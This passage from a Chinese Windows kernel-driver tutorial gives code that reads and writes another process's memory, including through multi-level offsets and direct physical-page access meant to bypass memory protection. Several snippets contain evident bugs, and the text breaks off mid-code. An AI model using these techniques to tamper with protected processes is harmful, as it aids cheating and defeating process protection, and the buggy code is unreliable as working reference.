    DbgPrint("[内核读字节] # 读取地址: 0x%x 读取数据: %x \n", Address, OpCode);

    return OpCode;
}

// 写入内存字节
BOOLEAN WriteProcessMemoryByte(HANDLE Pid, ULONG64 Address, DWORD Size, BYTE *OpCode)
{
    KAPC_STATE state = { 0 };

    PEPROCESS Process;
    PsLookupProcessByProcessId((HANDLE)Pid, &Process);

    // 绑定进程,进入进程的地址空间
    KeStackAttachProcess(Process, &state);

    // 创建MDL地址描述符
    PMDL mdl = IoAllocateMdl((HANDLE)Address, Size, 0, 0, NULL);
    if (mdl == NULL)
    {
        return FALSE;
    }

    //使MDL与驱动进行绑定
    MmBuildMdlForNonPagedPool(mdl);
    BYTE* ChangeData = NULL;

    __try
    {
        // 将MDL映射到我们驱动里的一个变量,对该变量读写就是对MDL对应的物理内存读写
        ChangeData = (BYTE *)MmMapLockedPages(mdl, KernelMode);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        // DbgPrint("映射内存失败");
        IoFreeMdl(mdl);

        // 解除映射
        KeUnstackDetachProcess(&state);
        // 让内核对象引用数减1
        ObDereferenceObject(Process);
        return FALSE;
    }

    // 写入数据到指定位置
    RtlCopyMemory(ChangeData, OpCode, Size);
    DbgPrint("[内核写字节] # 写入地址: 0x%x 写入数据: %x \n", Address, OpCode);

    // 让内核对象引用数减1
    ObDereferenceObject(Process);
    MmUnmapLockedPages(ChangeData, mdl);
    KeUnstackDetachProcess(&state);
    return TRUE;
}
```

实现读取内存字节集并将读入的数据放入到`LySharkReadByte`字节列表中，代码如下所示通过调用`ReadProcessMemoryByte`都内存字节并每次`0x401000 + i`在基址上面增加变量i以此来实现字节集读取；
```c
// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 读内存字节集
    BYTE LySharkReadByte[8] = { 0 };

    for (size_t i = 0; i < 8; i++)
    {
        LySharkReadByte[i] = ReadProcessMemoryByte(4884, 0x401000 + i, 1);
    }

    // 输出读取的内存字节
    for (size_t i = 0; i < 8; i++)
    {
        DbgPrint("[+] 打印数据: %x \n", LySharkReadByte[i]);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码片段，你会看到如下图所示的读取效果；



那么如何实现写内存字节集呢？其实写入内存字节集与读取基本类似，通过填充`LySharkWriteByte`字节集列表，并调用`WriteProcessMemoryByte`函数依次循环字节集列表即可实现写出字节集的目的；
```c
// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 内存写字节集
    BYTE LySharkWriteByte[8] = { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };

    for (size_t i = 0; i < 8; i++)
    {
        BOOLEAN ref = WriteProcessMemoryByte(4884, 0x401000 + i, 1, LySharkWriteByte[i]);
        DbgPrint("[*] 写出状态: %d \n", ref);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码片段，即可将`LySharkWriteByte[8]`中的字节集写出到内存`0x401000 + i`的位置处，输出效果图如下所示；



接下来不如本章的重点内容，首先实现读内存`单精度与双精度`浮点数的目的，实现原理是通过读取`BYTE`类型的前`4或者8`字节的数据，并通过`*((FLOAT*)buffpyr)`将其转换为浮点数，通过此方法即可实现字节集到浮点数的转换，而决定是单精度还是双精度则只是一个字节集长度问题，这段读写代码实现原理如下所示；
```c
// 读内存单精度浮点数
FLOAT ReadProcessFloat(DWORD Pid, ULONG64 Address)
{
    BYTE buff[4] = { 0 };
    BYTE* buffpyr = buff;

    for (DWORD x = 0; x < 4; x++)
    {
        BYTE item = ReadProcessMemoryByte(Pid, Address + x, 1);
        buff[x] = item;
    }

    return *((FLOAT*)buffpyr);
}

// 读内存双精度浮点数
DOUBLE ReadProcessMemoryDouble(DWORD Pid, ULONG64 Address)
{
    BYTE buff[8] = { 0 };
    BYTE* buffpyr = buff;

    for (DWORD x = 0; x < 8; x++)
    {
        BYTE item = ReadProcessMemoryByte(Pid, Address + x, 1);
        buff[x] = item;
    }

    return *((DOUBLE*)buffpyr);
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 读取单精度
    FLOAT fl = ReadProcessFloat(4884, 0x401000);
    DbgPrint("[读取单精度] = %d \n", fl);

    // 读取双精度浮点数
    DOUBLE fl = ReadProcessMemoryDouble(4884, 0x401000);
    DbgPrint("[读取双精度] = %d \n", fl);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
如上代码就是实现`浮点数`读写的关键所在，这段代码中的`浮点数`传值如果在内核中会提示`无法解析的外部符号 _fltused`此处只用于演示核心原理，如果想要实现不报错，该代码中的传值操作应在`应用层`进行，而传入参数也应改为字节类型即可。

同理，对于写内存浮点数而言依旧如此，只是在接收到用户层传递参数后应对其`dtoc`双精度浮点数转为CHAR或者`ftoc`单精度浮点数转为CHAR类型，再写出即可；
```c
// 将DOUBLE适配为合适的Char类型
VOID dtoc(double dvalue, unsigned char* arr)
{
    unsigned char* pf;
    unsigned char* px;
    unsigned char i;

    // unsigned char型指针取得浮点数的首地址
    pf = (unsigned char*)&dvalue;

    // 字符数组arr准备存储浮点数的四个字节,px指针指向字节数组arr
    px = arr;

    for (i = 0; i < 8; i++)
    {
        // 使用unsigned char型指针从低地址一个字节一个字节取出
        *(px + i) = *(pf + i);
    }
}

// 将Float适配为合适的Char类型
VOID ftoc(float fvalue, unsigned char* arr)
{
    unsigned char* pf;
    unsigned char* px;
    unsigned char i;

    // unsigned char型指针取得浮点数的首地址
    pf = (unsigned char*)&fvalue;

    // 字符数组arr准备存储浮点数的四个字节,px指针指向字节数组arr
    px = arr;

    for (i = 0; i < 4; i++)
    {
        // 使用unsigned char型指针从低地址一个字节一个字节取出
        *(px + i) = *(pf + i);
    }
}

// 写内存单精度浮点数
BOOL WriteProcessMemoryFloat(DWORD Pid, ULONG64 Address, FLOAT write)
{
    BYTE buff[4] = { 0 };
    ftoc(write, buff);

    for (DWORD x = 0; x < 4; x++)
    {
        BYTE item = WriteProcessMemoryByte(Pid, Address + x, buff[x], 1);
        buff[x] = item;
    }

    return TRUE;
}

// 写内存双精度浮点数
BOOL WriteProcessMemoryDouble(DWORD Pid, ULONG64 Address, DOUBLE write)
{
    BYTE buff[8] = { 0 };
    dtoc(write, buff);

    for (DWORD x = 0; x < 8; x++)
    {
        BYTE item = WriteProcessMemoryByte(Pid, Address + x, buff[x], 1);
        buff[x] = item;
    }

    return TRUE;
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    // 写单精度
    FLOAT LySharkFloat1 = 12.5;
    INT fl = WriteProcessMemoryFloat(4884, 0x401000, LySharkFloat1);
    DbgPrint("[写单精度] = %d \n", fl);

    // 读取双精度浮点数
    DOUBLE LySharkFloat2 = 12.5;
    INT d1 = WriteProcessMemoryDouble(4884, 0x401000, LySharkFloat2);
    DbgPrint("[写双精度] = %d \n", d1);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

### 3.9 内核读写内存多级偏移

让我们继续在`《内核读写内存浮点数》`的基础之上做一个简单的延申，如何实现多级偏移读写，其实很简单，读写函数无需改变，只是在读写之前提前做好计算工作，以此来得到一个内存偏移值，并通过调用内存写入原函数实现写出数据的目的。

以读取偏移内存为例，如下代码同样来源于本人的`LyMemory`读写驱动项目，其中核心函数为`WIN10_ReadDeviationIntMemory()`该函数的主要作用是通过用户传入的基地址与偏移值，动态计算出当前的动态地址。

函数首先将基地址指向要读取的变量，并将其转换为`LPCVOID`类型的指针。然后将指向变量值的缓冲区转换为`LPVOID`类型的指针。接下来，函数使用`PsLookupProcessByProcessId`函数查找目标进程并返回其`PEPROCESS`结构体。随后，函数从偏移地址数组的最后一个元素开始迭代，每次循环都从目标进程中读取4字节整数型数据，并将其存储在`Value`变量中。然后，函数将基地址指向`Value`和偏移地址的和，以便在下一次循环中读取更深层次的变量。最后，函数将基地址指向最终变量的地址，读取变量的值，并返回。

如下案例所示，用户传入进程基址以及`offset`偏移值时，只需要动态计算出该偏移地址，并与基址相加即可得到动态地址。
```c
#include <ntifs.h>
#include <ntintsafe.h>
#include <windef.h>

// 普通Ke内存读取
NTSTATUS KeReadProcessMemory(PEPROCESS Process, PVOID SourceAddress, PVOID TargetAddress, SIZE_T Size)
{
    PEPROCESS SourceProcess = Process;
    PEPROCESS TargetProcess = PsGetCurrentProcess();
    SIZE_T Result;
    if (NT_SUCCESS(MmCopyVirtualMemory(SourceProcess, SourceAddress, TargetProcess, TargetAddress, Size, KernelMode, &Result)))
        return STATUS_SUCCESS;
    else
        return STATUS_ACCESS_DENIED;
}

// 读取整数内存多级偏移
/*
  Pid: 目标进程的进程ID。
  Base: 变量的基地址。
  offset: 相对基地址的多级偏移地址，用于定位变量。
  len: 偏移地址的数量。
*/
INT64 WIN10_ReadDeviationIntMemory(HANDLE Pid, LONG Base, DWORD offset[32], DWORD len)
{
    INT64 Value = 0;
    LPCVOID pbase = (LPCVOID)Base;
    LPVOID rbuffer = (LPVOID)&Value;

    PEPROCESS Process;
    PsLookupProcessByProcessId((HANDLE)Pid, &Process);

    for (int x = len - 1; x >= 0; x--)
    {
        __try
        {
            KeReadProcessMemory(Process, pbase, rbuffer, 4);
            pbase = (LPCVOID)(Value + offset[x]);
        }
        __except (EXCEPTION_EXECUTE_HANDLER)
        {
            return 0;
        }
    }

    __try
    {
        DbgPrint("读取基址：%x \n", pbase);
        KeReadProcessMemory(Process, pbase, rbuffer, 4);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return 0;
    }

    return Value;
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    DWORD PID = 4884;
    LONG PBase = 0x6566e0;
    LONG Size = 4;
    DWORD Offset[32] = { 0 };

    Offset[0] = 0x18;
    Offset[1] = 0x0;
    Offset[2] = 0x14;
    Offset[3] = 0x0c;

    // 读取内存数据
    INT64 read = WIN10_ReadDeviationIntMemory(PID, PBase, Offset, Size);

    DbgPrint("PID: %d 基址: %p 偏移长度: %d \n", PID, PBase, Size);
    DbgPrint("[+] 1级偏移: %x \n", Offset[0]);
    DbgPrint("[+] 2级偏移: %x \n", Offset[1]);
    DbgPrint("[+] 3级偏移: %x \n", Offset[2]);
    DbgPrint("[+] 4级偏移: %x \n", Offset[3]);

    DbgPrint("[ReadMemory] 读取偏移数据: %d \n", read);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上这段代码，则可获取到`PID=4884`的`PBase`的动态地址中的数据，如下图所示；



至于如何将数据写出四级偏移的基址上面，则只需要取出`pbase`里面的基址，并通过原函数`WIN10_WriteProcessMemory`直接写出数据即可，此出的原函数在`《内核MDL读写进程内存》`中已经做了详细介绍，实现写出代码如下所示；
```c
#include <ntifs.h>
#include <ntintsafe.h>
#include <windef.h>

// 普通Ke内存读取
NTSTATUS KeReadProcessMemory(PEPROCESS Process, PVOID SourceAddress, PVOID TargetAddress, SIZE_T Size)
{
    PEPROCESS SourceProcess = Process;
    PEPROCESS TargetProcess = PsGetCurrentProcess();
    SIZE_T Result;
    if (NT_SUCCESS(MmCopyVirtualMemory(SourceProcess, SourceAddress, TargetProcess, TargetAddress, Size, KernelMode, &Result)))
        return STATUS_SUCCESS;
    else
        return STATUS_ACCESS_DENIED;
}

// Win10 内存写入函数
BOOLEAN WIN10_WriteProcessMemory(HANDLE Pid, PVOID Address, SIZE_T BYTE_size, PVOID VirtualAddress)
{
    PVOID buff1;
    VOID *buff2;
    int MemoryNumerical = 0;
    KAPC_STATE KAPC = { 0 };

    PEPROCESS Process;
    PsLookupProcessByProcessId((HANDLE)Pid, &Process);

    __try
    {
        //分配内存
        buff1 = ExAllocatePoolWithTag((POOL_TYPE)0, BYTE_size, 1997);
        buff2 = buff1;
        *(int*)buff1 = 1;
        if (MmIsAddressValid((PVOID)VirtualAddress))
        {
            // 复制内存
            memcpy(buff2, VirtualAddress, BYTE_size);
        }
        else
        {
            return FALSE;
        }

        // 附加到要读写的进程
        KeStackAttachProcess((PRKPROCESS)Process, &KAPC);
        if (MmIsAddressValid((PVOID)Address))
        {
            // 判断地址是否可写
            ProbeForWrite(Address, BYTE_size, 1);
            // 复制内存
            memcpy(Address, buff2, BYTE_size);
        }
        else
        {
            return FALSE;
        }
        // 剥离附加的进程
        KeUnstackDetachProcess(&KAPC);
        ExFreePoolWithTag(buff2, 1997);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return FALSE;
    }
    return FALSE;
}

// 写入整数内存多级偏移
INT64 WIN10_WriteDeviationIntMemory(HANDLE Pid, LONG Base, DWORD offset[32], DWORD len, INT64 SetValue)
{
    INT64 Value = 0;
    LPCVOID pbase = (LPCVOID)Base;
    LPVOID rbuffer = (LPVOID)&Value;

    PEPROCESS Process;
    PsLookupProcessByProcessId((HANDLE)Pid, &Process);

    for (int x = len - 1; x >= 0; x--)
    {
        __try
        {
            KeReadProcessMemory(Process, pbase, rbuffer, 4);
            pbase = (LPCVOID)(Value + offset[x]);
        }
        __except (EXCEPTION_EXECUTE_HANDLER)
        {
            return 0;
        }
    }

    __try
    {
        KeReadProcessMemory(Process, pbase, rbuffer, 4);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return 0;
    }

    // 使用原函数写入
    BOOLEAN ref = WIN10_WriteProcessMemory(Pid, (void *)pbase, 4, &SetValue);
    if (ref == TRUE)
    {
        DbgPrint("[内核写成功] # 写入地址: %x \n", pbase);
        return 1;
    }
    return 0;
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    DWORD PID = 4884;
    LONG PBase = 0x6566e0;
    LONG Size = 4;
    INT64 SetValue = 100;

    DWORD Offset[32] = { 0 };

    Offset[0] = 0x18;
    Offset[1] = 0x0;
    Offset[2] = 0x14;
    Offset[3] = 0x0c;

    // 写出内存数据
    INT64 write = WIN10_WriteDeviationIntMemory(PID, PBase, Offset, Size, SetValue);

    DbgPrint("PID: %d 基址: %p 偏移长度: %d \n", PID, PBase, Size);
    DbgPrint("[+] 1级偏移: %x \n", Offset[0]);
    DbgPrint("[+] 2级偏移: %x \n", Offset[1]);
    DbgPrint("[+] 3级偏移: %x \n", Offset[2]);
    DbgPrint("[+] 4级偏移: %x \n", Offset[3]);

    DbgPrint("[WriteMemory] 写出偏移数据: %d \n", SetValue);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码将在`0x6566e0`所在的基址上，将数据替换为`100`，实现效果图如下所示；



那么如何实现读写内存浮点数，字节集等多级偏移呢？

其实我们可以封装一个`WIN10_ReadDeviationMemory`函数，让其只计算得出偏移地址，而所需要写出的类型则根据自己的实际需求配合不同的写入函数完成，也就是将两者分离开，如下则是一段实现计算偏移的代码片段，该代码同样来自于本人的`LyMemory`驱动读写项目；
```c
#include <ntifs.h>
#include <ntintsafe.h>
#include <windef.h>

// 普通Ke内存读取
NTSTATUS KeReadProcessMemory(PEPROCESS Process, PVOID SourceAddress, PVOID TargetAddress, SIZE_T Size)
{
    PEPROCESS SourceProcess = Process;
    PEPROCESS TargetProcess = PsGetCurrentProcess();
    SIZE_T Result;
    if (NT_SUCCESS(MmCopyVirtualMemory(SourceProcess, SourceAddress, TargetProcess, TargetAddress, Size, KernelMode, &Result)))
        return STATUS_SUCCESS;
    else
        return STATUS_ACCESS_DENIED;
}

// 读取多级偏移内存动态地址
DWORD64 WIN10_ReadDeviationMemory(HANDLE Pid, LONG Base, DWORD offset[32], DWORD len)
{
    INT64 Value = 0;
    LPCVOID pbase = (LPCVOID)Base;
    LPVOID rbuffer = (LPVOID)&Value;

    PEPROCESS Process;
    PsLookupProcessByProcessId((HANDLE)Pid, &Process);

    for (int x = len - 1; x >= 0; x--)
    {
        __try
        {
            KeReadProcessMemory(Process, pbase, rbuffer, 4);
            pbase = (LPCVOID)(Value + offset[x]);
        }
        __except (EXCEPTION_EXECUTE_HANDLER)
        {
            return 0;
        }
    }

    return pbase;
}

// 驱动卸载例程
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");

    DWORD PID = 4884;
    LONG PBase = 0x6566e0;
    LONG Size = 4;

    DWORD Offset[32] = { 0 };

    Offset[0] = 0x18;
    Offset[1] = 0x0;
    Offset[2] = 0x14;
    Offset[3] = 0x0c;

    // 写出内存数据
    DWORD64 offsets = WIN10_ReadDeviationMemory(PID, PBase, Offset, Size);

    DbgPrint("PID: %d 基址: %p 偏移长度: %d \n", PID, PBase, Size);
    DbgPrint("[+] 1级偏移: %x \n", Offset[0]);
    DbgPrint("[+] 2级偏移: %x \n", Offset[1]);
    DbgPrint("[+] 3级偏移: %x \n", Offset[2]);
    DbgPrint("[+] 4级偏移: %x \n", Offset[3]);

    DbgPrint("[CheckMemory] 计算偏移地址: %x \n", offsets);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码将动态计算出目前偏移地址的`pbase`实际地址，实现效果图如下所示；



### 3.10 内核物理内存寻址读写

在某些时候我们需要读写的进程可能存在虚拟内存保护机制，在该机制下用户的`CR3`以及`MDL`读写将直接失效，从而导致无法读取到正确的数据，本章我们将继续研究如何实现物理级别的寻址读写。

首先，驱动中的物理页读写是指在驱动中直接读写物理内存页（而不是虚拟内存页）。这种方式的优点是它能够更快地访问内存，因为它避免了虚拟内存管理的开销，通过直接读写物理内存，驱动程序可以绕过虚拟内存的保护机制，获得对系统中内存的更高级别的访问权限。

想要实现物理页读写，第一步则是需要找到`UserDirectoryTableBase`的实际偏移地址，你一定会问这是个什么？别着急，听我来慢慢解释；

在操作系统中，每个进程都有一个`KPROCESS`结构体，它是进程的内部表示。该结构体中包含了一些重要的信息，包括`UserDirectoryTableBase`字段，它指向进程的页表目录表`（Page Directory Table）`，也称为`DirectoryTable`页目录表。

`Page Directory Table`是一种数据结构，它在虚拟内存管理中起着重要的作用。它被用来存储将虚拟地址映射到物理地址的映射关系，其内部包含了一些指向页表的指针，每个页表中又包含了一些指向物理页面的指针。这些指针一起构成了一个树形结构，它被称为页表树`（Page Table Tree）`。

```c
kd> dt _KPROCESS
ntdll!_KPROCESS
+0x278 UserTime         : Uint4B
+0x27c ReadyTime        : Uint4B
+0x280 UserDirectoryTableBase : Uint8B
+0x288 AddressPolicy    : UChar
+0x289 Spare2           : [71] UChar

#define GetDirectoryTableOffset 0x280
```

`UserDirectoryTableBase`字段包含了进程的页表树的根节点的物理地址，通过它可以找到进程的页表树，从而实现虚拟内存的管理。在`WinDbg`中，通过输入`dt _KPROCESS`可以查看进程的`KPROCESS`结构体的定义，从而找到`UserDirectoryTableBase`字段的偏移量，这样可以获取该字段在内存中的地址，进而获取`DirectoryTable`的地址。不同操作系统的`KPROCESS`结构体定义可能会有所不同，因此它们的`UserDirectoryTableBase`字段的偏移量也会不同。

#### 3.10.1 物理页转换算法分析

通过上述原理解释，我们可知要实现物理页读写需要实现一个转换函数，因为在应用层传入的还是一个虚拟地址，通过`TransformationCR3`函数即可实现将虚拟地址转换到物理地址，函数内部实现了从虚拟地址到物理地址的转换过程，并返回物理地址。

```c
// 从用户层虚拟地址切换到物理页地址的函数
// 将 CR3 寄存器的末尾4个比特清零，这些比特是用于对齐的，不需要考虑
/*
    参数 cr3：物理地址。
    参数 VirtualAddress：虚拟地址。
*/
ULONG64 TransformationCR3(ULONG64 cr3, ULONG64 VirtualAddress)
{
  cr3 &= ~0xf;
  // 获取页面偏移量
  ULONG64 PAGE_OFFSET = VirtualAddress & ~(~0ul << 12);

  // 读取虚拟地址所在的三级页表项
  SIZE_T BytesTransferred = 0;
  ULONG64 a = 0, b = 0, c = 0;

  ReadPhysicalAddress((PVOID)(cr3 + 8 * ((VirtualAddress >> 39) & (0x1ffll))), &a, sizeof(a), &BytesTransferred);

  // 如果 P（存在位）为0，表示该页表项没有映射物理内存，返回0
  if (~a & 1)
  {
    return 0;
  }

  // 读取虚拟地址所在的二级页表项
  ReadPhysicalAddress((PVOID)((a & ((~0xfull << 8) & 0xfffffffffull)) + 8 * ((VirtualAddress >> 30) & (0x1ffll))), &b, sizeof(b), &BytesTransferred);

  // 如果 P 为0，表示该页表项没有映射物理内存，返回0
  if (~b & 1)
  {
    return 0;
  }

  // 如果 PS（页面大小）为1，表示该页表项映射的是1GB的物理内存，直接计算出物理地址并返回
  if (b & 0x80)
  {
    return (b & (~0ull << 42 >> 12)) + (VirtualAddress & ~(~0ull << 30));
  }

  // 读取虚拟地址所在的一级页表项
  ReadPhysicalAddress((PVOID)((b & ((~0xfull << 8) & 0xfffffffffull)) + 8 * ((VirtualAddress >> 21) & (0x1ffll))), &c, sizeof(c), &BytesTransferred);

  // 如果 P 为0，表示该页表项没有映射物理内存，返回0
  if (~c & 1)
  {
    return 0;
  }
  // 如果 PS 为1，表示该页表项映射的是2MB的物理内存，直接计算出物理地址并返回
  if (c & 0x80)
  {
    return (c & ((~0xfull << 8) & 0xfffffffffull)) + (VirtualAddress & ~(~0ull << 21));
  }
  // 读取虚拟地址所在的零级页表项，计算出物理地址并返回
  ULONG64 address = 0;
  ReadPhysicalAddress((PVOID)((c & ((~0xfull << 8) & 0xfffffffffull)) + 8 * ((VirtualAddress >> 12) & (0x1ffll))), &address, sizeof(address), &BytesTransferred);
  address &= ((~0xfull << 8) & 0xfffffffffull);
  if (!address)
  {
    return 0;
  }

  return address + PAGE_OFFSET;
}
```

具体来说，这段代码将输入的`CR3`值和虚拟地址作为参数，并将`CR3`值和虚拟地址的偏移量进行一系列计算，最终得出物理地址。

其中，`CR3`是存储页表的物理地址，它保存了虚拟地址到物理地址的映射关系。该函数通过读取`CR3`中存储的页表信息，逐级访问页表，直到找到对应的物理地址。

具体来说，该函数使用虚拟地址的`高9位`确定页表的索引，然后通过读取对应的页表项，得到下一级页表的物理地址。该过程重复执行，直到读取到页表的最后一级，得到物理地址。

最后，该函数将物理地址的`低12位`与虚拟地址的偏移量进行`OR`运算，得到最终的物理地址，并将其返回。

需要注意的是，该函数还会进行一些错误处理，例如在读取页表项时，如果该项没有被设置为有效，函数将返回0，表示无法访问对应的物理地址。

此时用户已经获取到了物理地址，那么读写就变得很容易了，当需要读取数据时调用`ReadPhysicalAddress`函数，其内部直接使用`MmCopyMemory`对内存进行拷贝即可，而对于写入数据而言，需要通过调用`MmMapIoSpace`先将物理地址转换为一个用户空间的虚拟地址，然后再通过`RtlCopyMemory`向内部拷贝数据即可实现写入，这三段代码的封装如下所示；
```c
#include <ntifs.h>
#include <windef.h>

#define GetDirectoryTableOffset 0x280
#define bit64 0x28
#define bit32 0x18

// 读取物理内存封装
// 这段代码实现了将物理地址映射到内核空间，然后将物理地址对应的数据读取到指定的缓冲区中。
/*
    address：需要读取的物理地址；
    buffer：读取到的数据需要保存到的缓冲区；
    size：需要读取的数据大小；
    BytesTransferred：实际读取到的数据大小。
*/
NTSTATUS ReadPhysicalAddress(PVOID address, PVOID buffer, SIZE_T size, SIZE_T* BytesTransferred)
{
  MM_COPY_ADDRESS Read = { 0 };
  Read.PhysicalAddress.QuadPart = (LONG64)address;
  return MmCopyMemory(buffer, Read, size, MM_COPY_MEMORY_PHYSICAL, BytesTransferred);
}

// 写入物理内存
// 这段代码实现了将数据写入物理地址的功能
/*
    参数 address：要写入的物理地址。
    参数 buffer：要写入的数据缓冲区。
    参数 size：要写入的数据长度。
    参数 BytesTransferred：实际写入的数据长度。
*/
NTSTATUS WritePhysicalAddress(PVOID address, PVOID buffer, SIZE_T size, SIZE_T* BytesTransferred)
{
  if (!address)
  {
    return STATUS_UNSUCCESSFUL;
  }

  PHYSICAL_ADDRESS Write = { 0 };
  Write.QuadPart = (LONG64)address;
    
    // 将物理空间映射为虚拟空间
  PVOID map = MmMapIoSpace(Write, size, (MEMORY_CACHING_TYPE)PAGE_READWRITE);

  if (!map)
  {
    return STATUS_UNSUCCESSFUL;
  }

    // 开始拷贝数据
  RtlCopyMemory(map, buffer, size);
  *BytesTransferred = size;
  MmUnmapIoSpace(map, size);
  return STATUS_SUCCESS;
}

// 从用户层虚拟地址切换到物理页地址的函数
// 将 CR3 寄存器的末尾4个比特清零，这些比特是用于对齐的，不需要考虑
/*
    参数 cr3：物理地址。
    参数 VirtualAddress：虚拟地址。
*/
ULONG64 TransformationCR3(ULONG64 cr3, ULONG64 VirtualAddress)
{
  cr3 &= ~0xf;
  // 获取页面偏移量
  ULONG64 PAGE_OFFSET = VirtualAddress & ~(~0ul << 12);

  // 读取虚拟地址所在的三级页表项
  SIZE_T BytesTransferred = 0;
  ULONG64 a = 0, b = 0, c = 0;

  ReadPhysicalAddress((PVOID)(cr3 + 8 * ((VirtualAddress >> 39) & (0x1ffll))), &a, sizeof(a), &BytesTransferred);

  // 如果 P（存在位）为0，表示该页表项没有映射物理内存，返回0
  if (~a & 1)
  {
    return 0;
  }

  // 读取虚拟地址所在的二级页表项
  ReadPhysicalAddress((PVOID)((a & ((~0xfull << 8) & 0xfffffffffull)) + 8 * ((VirtualAddress >> 30) & (0x1ffll))), &b, sizeof(b), &BytesTransferred);

  // 如果 P 为0，表示该页表项没有映射物理内存，返回0
  if (~b & 1)
  {
    return 0;
  }

  // 如果 PS（页面大小）为1，表示该页表项映射的是1GB的物理内存，直接计算出物理地址并返回
  if (b & 0x80)
  {
    return (b & (~0ull << 42 >> 12)) + (VirtualAddress & ~(~0ull << 30));
  }

  // 读取虚拟地址所在的一级页表项
  ReadPhysicalAddress((PVOID)((b & ((~0xfull << 8) & 0xfffffffffull)) + 8 * ((VirtualAddress >> 21) & (0x1ffll))), &c, sizeof(c), &BytesTransferred);

  // 如果 P 为0，表示该页表项没有映射物理内存，返回0
  if (~c & 1)
  {
    return 0;
  }
  // 如果 PS 为1，表示该页表项映射的是2MB的物理内存，直接计算出物理地址并返回
  if (c & 0x80)
  {
    return (c & ((~0xfull << 8) & 0xfffffffffull)) + (VirtualAddress & ~(~0ull << 21));
  }
  // 读取虚拟地址所在的零级页表项，计算出物理地址并返回
  ULONG64 address = 0;
  ReadPhysicalAddress((PVOID)((c & ((~0xfull << 8) & 0xfffffffffull)) + 8 * ((VirtualAddress >> 12) & (0x1ffll))), &address, sizeof(address), &BytesTransferred);
  address &= ((~0xfull << 8) & 0xfffffffffull);
  if (!address)
  {
    return 0;
  }

  return address + PAGE_OFFSET;
}
```

#### 3.10.2 实现物理页读内存

有了如上封装，那么我们就可以实现驱动读写了，首先我们实现驱动读取功能，如下这段代码是`Windows`驱动程序的入口函数`DriverEntry`，主要功能是读取指定进程的虚拟地址空间中指定地址处的`4`个字节数据。

代码首先通过 `PsLookupProcessByProcessId` 函数获取指定进程的 `EPROCESS` 结构体指针。然后获取该进程的 `CR3`值，用于将虚拟地址转换为物理地址。接下来，循环读取指定地址处的 `4` 个字节数据，每次读取 `PAGE_SIZE` 大小的物理内存数据。最后输出读取到的数据，并关闭对 `EPROCESS` 结构体指针的引用。

需要注意的是，该代码并没有进行有效性检查，如没有检查读取的地址是否合法、读取的数据是否在用户空间，因此存在潜在的风险。另外，该代码也没有考虑内核模式下访问用户空间数据的问题，因此也需要进行进一步的检查和处理。
```c
// 驱动卸载例程
extern "C" VOID DriverUnload(PDRIVER_OBJECT pDriver)
{
  UNREFERENCED_PARAMETER(pDriver);
  DbgPrint("Uninstall Driver \n");
}

// 驱动入口地址
extern "C" NTSTATUS DriverEntry(PDRIVER_OBJECT pDriver, PUNICODE_STRING path)
{
  DbgPrint("Hello LyShark \n");

  // 通过进程ID获取eprocess
  PEPROCESS pEProcess = NULL;
  NTSTATUS Status = PsLookupProcessByProcessId((HANDLE)4116, &pEProcess);

  if (NT_SUCCESS(Status) && pEProcess != NULL)
  {

    ULONG64 TargetAddress = 0x401000;
    SIZE_T TargetSize = 4;
    SIZE_T read = 0;

    // 分配读取空间
    BYTE* ReadBuffer = (BYTE *)ExAllocatePool(NonPagedPool, 1024);

    // 获取CR3用于转换
    PUCHAR Var = reinterpret_cast<PUCHAR>(pEProcess);
    ULONG64 CR3 = *(ULONG64*)(Var + bit64);
    if (!CR3)
    {
      CR3 = *(ULONG64*)(Var + GetDirectoryTableOffset);
    }

    DbgPrint("[CR3] 寄存器地址 = 0x%p \n", CR3);

    while (TargetSize)
    {
      // 开始循环切换到CR3
      ULONG64 PhysicalAddress = TransformationCR3(CR3, TargetAddress + read);
      if (!PhysicalAddress)
      {
        break;
      }

      // 读取物理内存
      ULONG64 ReadSize = min(PAGE_SIZE - (PhysicalAddress & 0xfff), TargetSize);
      SIZE_T BytesTransferred = 0;

      // reinterpret_cast 强制转为PVOID类型
